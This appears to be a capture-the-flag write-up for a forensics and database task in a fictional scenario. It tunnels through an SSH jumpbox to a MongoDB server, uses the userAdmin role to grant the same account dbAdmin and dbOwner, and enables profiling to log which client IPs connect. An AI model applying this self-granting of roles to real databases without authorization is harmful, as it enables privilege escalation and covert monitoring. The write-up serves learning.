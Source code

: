 # Task 6 - Follow the Data Part 2 - (Forensics, Databases, Exploitation)
```
While you were working, we found the small U.S. cellular provider which issued the SIM card recovered from the device: Blue Horizon Mobile.

As advised by NSA legal counsel we reached out to notify them of a possible compromise and shared the IP address you discovered. Our analysts explained that sophisticated cyber threat actors may use co-opted servers to exfiltrate data and Blue Horizon Mobile confirmed that the IP address is for an old unused database server in their internal network. It was unmaintained and (unfortunately) reachable by any device in their network.

We believe the threat actor is using the server as a "dead drop", and it is the only lead we have to find them. Blue Horizon has agreed to give you limited access to this server on their internal network via an SSH "jumpbox". They will also be sure not to make any other changes that might tip off the actor. They have given you the authority to access the system, but unfortunately they could not find credentials. So you only have access to the database directly on TCP port 27017

Use information from the device firmware, and (below) SSH jumpbox location and credentials to login to the database via an SSH tunnel and discover the IP address of the system picking up a dead drop. Be patient as the actor probably only checks the dead drop periodically. Note the jumpbox IP is 100.127.0.2 so don't report yourself by mistake


Downloads:

SSH host key to authenticate the jumpbox (optional) (jumpbox-ssh_host_ecdsa_key.pub)
SSH private key to authenticate to the jumpbox: user@external-support.bluehorizonmobile.com on TCP port 22 (jumpbox.key)
Enter the IP address (don't guess)
```


## Connection Commands
```
ssh -vvvv -o "IdentitiesOnly=yes" -i ~/.ssh/jumpbox.key -L 27017:100.107.142.158:27017  user@external-support.bluehorizonmobile.com

mongosh 'mongodb://maintenance:e34adee367a46a@localhost:27017/?authSource=snapshot-f2852ce48e77'
```

## Solution
Before this I had never used `mongodb`, so I went to [The MongoDB Documentation](https://www.mongodb.com/docs/manual/).
After connecting with `mongosh` I went to check the permissions that I had, and immediately thought that any role called `*Admin` seemed like really bad OPSec, so I went to see what `userAdmin` actually has permission to do.
```
test> use snapshot-f2852ce48e77
switched to db snapshot-f2852ce48e77
snapshot-f2852ce48e77> db.getUsers()
{
  users: [
    {
      _id: 'snapshot-f2852ce48e77.maintenance',
      userId: new UUID("5af6b873-e5fc-43a8-ad67-5cc76e0cf7b8"),
      user: 'maintenance',
      db: 'snapshot-f2852ce48e77',
      roles: [
        { role: 'userAdmin', db: 'snapshot-f2852ce48e77' },
        { role: 'readWrite', db: 'snapshot-f2852ce48e77' }
      ],
      mechanisms: [ 'SCRAM-SHA-1', 'SCRAM-SHA-256' ]
    }
  ],
  ok: 1
}
```

After looking at the docs again, it looked like `userAdmin` can grant additional roles, like [`dbAdmin` and `dbOwner`](https://www.mongodb.com/docs/manual/reference/built-in-roles/#mongodb-authrole-dbAdmin).
```
snapshot-f2852ce48e77> db.grantRolesToUser("maintenance", [{role: "dbAdmin", db: "snapshot-f2852ce48e77"}, {role: "dbOwner", db: "snapshot-f2852ce48e77"}, { role: 'enableSharding', db: 'snapshot-f2852ce48e77' },])
```

```
snapshot-f2852ce48e77> db.getUsers()
{
  users: [
    {
      _id: 'snapshot-f2852ce48e77.maintenance',
      userId: new UUID("5af6b873-e5fc-43a8-ad67-5cc76e0cf7b8"),
      user: 'maintenance',
      db: 'snapshot-f2852ce48e77',
      roles: [
        { role: 'userAdmin', db: 'snapshot-f2852ce48e77' },
        { role: 'enableSharding', db: 'snapshot-f2852ce48e77' },
        { role: 'dbAdmin', db: 'snapshot-f2852ce48e77' },
        { role: 'readWrite', db: 'snapshot-f2852ce48e77' },
        { role: 'dbOwner', db: 'snapshot-f2852ce48e77' }
      ],
      mechanisms: [ 'SCRAM-SHA-1', 'SCRAM-SHA-256' ]
    }
  ],
  ok: 1
}

```

Looking at the [table of "Permitted Actions"](https://www.mongodb.com/docs/manual/reference/built-in-roles/#mongodb-authrole-dbAdmin) for the `dbAdmin` role, one of the resources that `dbAdmin` has access to is `system.profile`. Looking around in the [Profiler Documentation](https://www.mongodb.com/docs/manual/tutorial/manage-the-database-profiler/) led me to find that changing the profiling level to `2` is supposed to collect data for all operations, which I assumed would include an authentication from a remote device and any transaction performed, like reading

```
snapshot-f2852ce48e77> db.setProfilingLevel(2)
{ was: 2, slowms: 1, sampleRate: 1, ok: 1 }
```

And then I proceeded to run this command to list out the contents of the `system.profile` collection
```
snapshot-f2852ce48e77> db.getCollection('system.profile').find()
```

Where I noticed that one of the fields, `client`, was an IP address. Please note that this was requeried while doing the writeup.
```json
  {
    op: 'query',
    ns: 'snapshot-f2852ce48e77.system.profile',
    command: {
      find: 'system.profile',
      filter: {},
      lsid: { id: new UUID("e05cbc8b-45bc-41db-88c3-0ed691abfab1") },
      '$db': 'snapshot-f2852ce48e77'
    },
    keysExamined: 0,
    docsExamined: 10,
    cursorExhausted: true,
    numYield: 0,
    nreturned: 10,
    queryHash: '17830885',
    queryFramework: 'classic',
    locks: {
      FeatureCompatibilityVersion: { acquireCount: { r: Long("1") } },
      Global: { acquireCount: { r: Long("1") } },
      Mutex: { acquireCount: { r: Long("1") } }
    },
    flowControl: {},
    responseLength: 9932,
    protocol: 'op_msg',
    millis: 0,
    planSummary: 'COLLSCAN',
    execStats: {
      stage: 'COLLSCAN',
      nReturned: 10,
      executionTimeMillisEstimate: 0,
      works: 11,
      advanced: 10,
      needTime: 0,
      needYield: 0,
      saveState: 0,
      restoreState: 0,
      isEOF: 1,
      direction: 'forward',
      docsExamined: 10
    },
    ts: ISODate("2023-12-11T02:49:42.937Z"),
    client: '100.127.0.2',
    appName: 'mongosh 2.0.2',
    allUsers: [ { user: 'maintenance', db: 'snapshot-f2852ce48e77' } ],
    user: 'maintenance@snapshot-f2852ce48e77'
  }
```


Then I inserted a document into the database, hoping that it might trigger the other device to collect data.
```
snapshot-f2852ce48e77> db.files.insertOne({"blah":"blah"})
```

Then after maybe 15-30ish minutes, I queried again and noticed an extra message that I completely missed before.

```
Type "it" for more
snapshot-f2852ce48e77> it
```


which eventually showed an operation with a different `client` value, which was the solution that I submitted
```
100.90.12.106
```
